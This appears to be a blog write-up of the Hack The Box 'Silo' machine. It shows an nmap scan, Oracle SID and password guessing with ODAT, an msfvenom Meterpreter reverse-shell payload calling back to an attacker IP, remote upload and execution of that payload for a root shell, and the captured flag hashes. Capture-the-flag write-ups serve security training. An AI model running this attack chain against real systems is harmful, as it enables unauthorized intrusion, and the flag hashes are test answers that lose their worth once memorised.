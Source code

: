 ```yaml
---
layout: post
title:  "HTB-SILO"
tags: got review
---
```

# HTB Silo
## Recon
```perl
Basic_10.10.10.82.nmap 10.10.10.82
Nmap scan report for 10.10.10.82
Host is up (0.046s latency).
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 8.5
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp open oracle-tns Oracle TNS listener 11.2.0.2.0 (unauthorized)
49152/tcp open msrpc Microsoft Windows RPC
49153/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
49155/tcp open msrpc Microsoft Windows RPC
49157/tcp open msrpc Microsoft Windows RPC
49160/tcp open oracle-tns Oracle TNS listener (requires service name)
49161/tcp open msrpc Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```
## Exploitation: Oracle Database Attacking Tool
1. We gonna use install ODAT to query the Oracle database and find away to exploit it
```perl
https://github.com/quentinhardy/odat
cd odat/
git submodule init
git submodule update
sudo apt-get install libaio1 python-dev alien python-pip
```
2. Get instant client basic, sdk (devel) and sqlplus from the Oracle web site:
```perl
X64: http://www.oracle.com/technetwork/topics/linuxx86-64soft-092277.html
```
3. Generate DEB packages from rpm packages
```perl
alian --to-deb *.rpm
```
4. Install deb packages
```perl
dpkg -i *.deb
```
5. Finally we need to edit our /etc/profile and put the following PATH lines
```perl
export ORACLE_HOME=/usr/lib/oracle/19.3/client64/
export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
export PATH=$ORACLE_HOME/bin:$PATH
```
Note: Sometimes when try to run oday.py will throw an error saying that **cx_Oracle** dependency module
is missing. If that happens:
```perl
pip2 install cx_Oracle
```
![odat](https://lh3.googleusercontent.com/kp-mH-gMcOqg7zPRt9fMAl0nqg5PlOSgH9jAj25Uy9r_JYxmacaflyYhiksT-r9H3W4HF9UW-dhM0EYDhIl2MloofU2DtIIxBpdDkcDfM6TZjFf3WOvI6k_HO9Lx60QYgXlymkb0G1idb0NS2FKWCVaHpV4WubO1EO3B16RhgNt5W6QJwNvvK5kjtWzb3Rc8RcNqJ6PV2UgCtF27D838agHqTUnc7Mrrj9qdXRWMMzDBgiuiRrYKRQWYbZ7MWReTKZSKG1-FvMv1aYusvvt0sbO5pj3cV3GlQWa1R2fXTI1i7UVfr8MKWiUaGeIRSTJ4NUyI1LUKFot6GOK3c8LTFChjWD3WdyQhcJZXj_WqZoaVOWLtbhae11dglP3jOM5fkC-cEMDnYbKDHS7pFaho7YlkPvbi7FV60DU-3Xs43q9cl3TpsHKEb916ubQJmmiX7uwzHUGkunQZjaYaB3aTREp6fFxAAkvQTPqj6VtDbzG8FTJjt9S70Np_BAuIVBAyutdVSg56Qj941M4PVa9crufsyc7zDIs9SeBENvvXjA3hbVHzY-aBS4zSQEi7axL6DTDhmdh5tCdNbrPw-RYfIM_YtDzDOUrAJAJo-DONRVpThHWSBE5UMoLXs47nPxkb1jlGmpLZY2Cf8Z50MiAg9n32scPB9pVf8A1N_S977ik43jU9BPdH8Gs=w711-h348-no)


6. We start odat and we use the module **sidguesser**
```perl
python odat.py sidguesser -s 10.10.10.82 -p 1521
```
![](https://lh3.googleusercontent.com/hEq9szP50RKA_3RhEiM9xws66An6o2vLUtWFSvI9EaFKAPLeME7i-GHA5VewAYrYPwJdXvN2cu9HXMDA0NANeO4EdZqTO5-Cxjz05dgMZWTEZoexwDlIoen6SgxJoFAW-u-0XqAFIV08T_FV_OV0_JGTtYYfEl3uUmHF0n6GvZnURdYs5JJ0jBIm8Nlx6fcSkQGDMFD_v4YPruTzrcjV_VexGSGIrIWJ6fQJVdL5LdN_MuWXABgFfrwalDwXgYki87PqGGY5Yq0PSL8XNtFyZ_DWdr6Ji96hOFE3hw5_81cEuPJ0nazKcrmTn5VetGD4coaOdNV-nhEXFSOaiBQp2CoHqZJtMT22Nx-Tnleij0sE0phWt5KlbtufJRIbAY4-y5WuYd-W-BmLWzVM7TbLxBZtfOenzqjr-gICND4THCrE6FhxCl2SgumXE4ktvRRJcFF5oF5BggQVta3ARwUgjyzHI7nEZMeY7jxNKg8sNeWfS1M8qNuwa9VxfBiRRPR7C7r7K0MeBJwrrlTiIKPxUS-hdvG1LE21wW5zsWeGKwKCnSGFe-XEAEfUE2jcGUpyI0UF6BraPNx0043g-U5yizWaDweFyl0xIn8vJD6mOeZbLgYsxEmOnSSkDFi1aG7qli-iZpgnaclN9t2NLmjG_omUa8WRj0aMBjhRygZ9ZJo_TvEyNesml4s=w590-h461-no)

7. Sidguesser returns two potential valid SID: **XE,XEXDB**
![](https://lh3.googleusercontent.com/h3yksJJBLdywJSs0XC-D4VtOi6Z9pZuwvefCbY44hZb1B3o3zeZQPv4Oxjuk6-y_KRrACC1BRdDkM9ly5M3mB9pKnxNrEihlyMwo-xwYGOXezUbtXrJjP4OvX8arAaZyKo52votOF_dJIkKcn_jA5gofm49l7UNt0ojOupsPmm8Hxxpf8-_aG4HF1bHKZnXE4txvB9ziIXOhze0IKhVQOMOlkRK1P6d35X4gR4t-7R1BEIuXFe2ddk0bCQYkcN64NMWVZNU4WRjrBL5KAxcakCjjaA68M4JLO2q7XeOOj_RskZsMX7Uz2luqUe-qAasA7Up8K3t1rr5yZDWeG2_mNomNX56EpOBHW8w5qAWYjQT_EbWOj64tzWEcACu23pecqQYEQw0K01l7IFHs6oU88OyrSta-B_KPYg7OOheH-JGV2LQvYite3zi6CDoTgU8cP98dTZrvpVBipIkrtlmF88G6RsNnsualTZb94BLIPiVw94Oropz9XlzHivG0QuNHOxkcIaRKIeLSfSFRmKxuukx3npQ2ZnNsliZO6XoWkCQLeXhKta1Glf9wjDCvfmhA0F5ismu1RtljeEMKzqnz_WB_sJcnp-6vKSTSMnn9Laxa9QCoOkvAXv3W6qRNFMNmLWyOFyxmkvILHxl6VABeYijVOhcDAas3IjgYN-ZUbbnVEsfJlVM-ZjE=w913-h289-no)

8. Time to get some creds by usin passwordguesser
```perl
python odat.py passwordguesser -s 10.10.10.82 -d XE
```
```perl
Valid credentials found: scott/tiger.
```
![](9https://lh3.googleusercontent.com/SqWEOd29qiiLEfqNhbm6GArlECaBiC7tjlbtjcsHQWmxNjOBPvLqgVkp-b9XFZcmZYTUFZVt_xVdxRFY98PuwPW02G8JjVlS5ZwpmBP6hxkhCi5yxw4-EEcwZpAaBRNXaAs4n8nHkb6BI6phb1ma79ak8el3O_Xu2BzMzUXgidNR-4WVnj4pE9zqr_Plu-6r3A8bBAtsq4lRGj2kqFZEfd8oME19tDW-qH9jkhrfvgeWomlotbqdpRYdW_rZVih9P007__BtsKIdQ7an6TQT3JZc0J_uoK7zDF40A32jgMUwN9R4Dph1M-wn-qdRQ_A3XkWtyVvKyl6o7xVJje-Z63nDb26ADPUfG4oQr4FVPqYXrQsgPhV9U2hMessEU4JcdAWUj0Mzh1qOfZKoDS1mg4r-dinuI-_dMVIV2SyuRR6pbqzG7T3T8P9PQYbctWuDF0uPGOXe4-V4l6n2W2YPSzhSnnyP-UNORVFOAxRy4M6ALuktnRHx4yz2GAECy5y6PLr6dHTNrWYMUnE7QRfcXfxeYtyS5n0pxLUwb7N74GOdA0vt3Rrr9zUjh-TJoLM3pns6b-EakA7cD_DFDY3b9VCHxeqnW6GoZhGAvyiKUH7KLJqt4kqqHX-YVcN6hrCRmVBroUMXo76sIaNOcWGRKjMvIngIBndjp4QLfR-3QUxV1DhC4Zhj8uo=w975-h232-no)

9. We gonna use the utlfile module to upload a reverse shell using msfvenom
```perl
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.25 LPORT=9999 -f exe -o evil.exe
python odat.py utlfile --sysdba -s 10.10.10.82 -d XE -U scott -P tiger --putFile /temp evil.exe /root/
Desktop/evil.exe
```

10. Then we gonna exec our shell using the **externaltable** module from odat
python odat.py externaltable --sysdba -s 10.10.10.82 -d XE -U scott -P tiger --exec /temp evil.exe

![](https://lh3.googleusercontent.com/-Krzjvbkc06_U7GE4sEFeTFClz5_kt8Ie7Hi0LStMElArvHcNhpuZtbDkGu-nadCXMPh_rLKZr58iGW9-oW1Ui5x-D2X-JRvLWbT6vxnYZe1BuUubrIG7pLrFBdEig1t6_mVRyRVVnNe7RnTgA37Quwq4TnElNDkbd_ESNCqZMZqQexS1YoURhWjKweTRfvKcCtLlJDnBxqLzUQBml82UDxszENpoOhIqYrXZnTWRPmIPCrp0SwYykZBuEmNS5dz8HDm4UHX1msHIJ3IRIAEZlIr6es14LvJYKE7NDWC0M1_FwlNgxM1aBzG_CrzJw5ibLN5a2CdM76WJ_aBsalnXKGu-p0mDhImhTwdScCNBaODY-6UsZenOipkt430ODG5KQkD6QAWBVJiWF-dH2IjP5gyfl1luPudYs2zLrL6El0w7CsvsSreK7zXyrh0jgkt8xFwGLSlJ1zADEqEJrmQjdHv9Bn1xRPkCX1fYANyZuT1mO6QTAQW-JX1qcxIWDO887zFw-O7rvgV-zGFBrAa8_JjBnIIpxMKWvaqW2ZuO865oPaxqWRo--eo0poyYxOt5frVK58F7mYrMeIfMr4U4t1l7cu7GBvrgze_iDA1uD1KIOLrmHnVrFjT5jH05XvZmoOmCczrnhijMLhsYYoo_blP-VNrJ2wpy3vPD04PK775cAw2NSAxXu4=w1265-h97-no)

![](https://lh3.googleusercontent.com/pV9ug_tfK2HYY-T-BDqI7nH00U4_nbGp4FbrbUNdFdij8xqFrI-Npm3kjOWBJ2i4se3wVUSsTZXS7Gp-Dmkf-VXaTPKQ-JXSGlfoDHOcMrDLM0-25F4M94r2pxf_VZpC52ijsA8QL1x6qNXgUGq8mX-XEfRY-PNU_SRoRBOugvTdv-Jwd7wPdSTjwVJOnCKvie-cDIhMKkivsI3bMO_4yc2L7_MighBeG-66DUXt3wQC8N4l4COTUf_3QpsBHXhqc7C2hcLJq5Xb72LJXAOU-v_rY5rVn2FLNcCqIE2Xi7fx79Vd0p3s1A0bWkeZHC1Al4ylneTEGVDvRtpSY-XpX2M1bK0g-rTLBlk6r34fgtClw3bJAuknHdDQnwQf_bBTd_NGruquONYqdzrfQGrW1xX2OoP2wJjBPLD2UaajZ-c_D0NCQo_s_LkJYfT-C_vFz0Y8Y_UG5dWglkn1kBBm3PAuXg0qcJgs-oqqnN66ECPQUL4oa1TOM5k6oRlu-jH8CMW7oKqbYZLdosWPP4gN8-HzvocD6qbc4Rto6p-FBe6mRcnwnzdIsS82UzY2zirGwVVjUfb3MUK3Fg2ttpgh2-l3BvZlh0rQ4WlGROG5NMr1t1nfCh5bnjhM80ahdGxn-GP5K8eSN87hNMF5Gvr7O91C8zXhS4PlCnBJZ_DOzg2G5FwPpyMs8PI=w1157-h80-no)

11. Finally we got root shell.

![](https://lh3.googleusercontent.com/YEib8--SF8_5x82BeuFNISJXM1Bu2nkY3YID88KZJ-ASnDqkv-0CV9Kq1CzppMB1ClBhEKvYZtSd2TxSSpRe_fucOD7HSvdLYbMpgXDIXclu4AyprmILXdGZ5Ld8Ts-nlkXLoAt4p43nDPNOhDGvofUL8YcFt466s2dFdMUWibdAS6K8G7HaqwoGjAOFDl0Q8WCFUFZOvpF13MU1g6NLQPwLeyY_F2Sortd389ziUue459wPSfPulKuTv1tgIBX1-vH6uams9C9f7goPagNsaxJqpNqhuNfmfVgxievovLzzHVdqR9_phE1Vil8M2HCbHKASmXoRJz_Yw_a9XEfuyKXRiEkUVGzbw_To4GCW8U13kD9LSHGpJKXvR2AjQo5dohAwmhRsvrpJ6uqcjlCA2pVFulpmOFeUboz_STHeutqitH154hghJAz47YSo8HRwxg2XUgcxgiDFJyYZfP5s3UY6WesWhNO_yAOv9j2D9OFwUZyxw7j1bENy72e4Rd_Ch9neRyqIea7Vke2ysOzAqj9JJdYKqzPpwYWXtx4WnHHmXU8NCQP3stMXaJwa0orkGqk504IvTR-mtT981vETpcTUrucc6tAK7x5adTHwpal_0PrC9l8mlM5369mNWp7LUnoM0KgwD2Et6NKGxyLH5KBgaClT1_FVKuB3k91Vt6Hdy1GIWdeW6YE=w724-h159-no)

|FLAGS| HASH|
|--------------|-----------|
| ROOT | cd39ea0af657a495e33bc59c7836faf6 |
| USER | 92ede778a1cc8d27cb6623055c331617 |

FLAGS
```ruby
ROOT : cd39ea0af657a495e33bc59c7836faf6 
USER : 92ede778a1cc8d27cb6623055c331617
```



